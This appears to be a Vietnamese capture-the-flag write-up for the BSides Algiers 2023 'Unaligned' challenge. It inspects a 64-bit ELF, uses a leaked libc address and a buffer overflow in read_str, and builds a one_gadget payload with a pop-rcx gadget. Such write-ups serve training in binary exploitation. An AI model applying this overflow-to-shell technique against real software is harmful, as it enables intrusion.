




# Bsides_algiers_2023 - Unaligned

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
unaligned_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=705983c86892ef3c3589bfae36ffab41ea034430, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-64bit



# 2. Phân tích 

Ngay đầu tiên thì chương trình đã cho ta địa chỉ libc

Tiếp đến hàm `read_str()` cho ta nhập 0x40 ký tự từ vị trí `s[256]` 

-> Ta sẽ sử dụng BOF để overwrite 8*3 bytes từ `saved_rip`

# 3. Khai thác

Ở đây do hạn chế về số lượng ký tự BOF nên mình sẽ sử dụng `One_gadget`



Sau khi check stack mình phát hiện ra không thể dùng `One_gadget` 2 và 3 do phần sau của stack đã bị lấp đầy



-> Sử dụng `One_gadget` đầu tiên do có gadget `pop_rcx_ret` để đưa `rcx = 0`

```
payload = cyclic(0x28) + p64(rcx_ret) + p64(0x0) + p64(og_1)
```

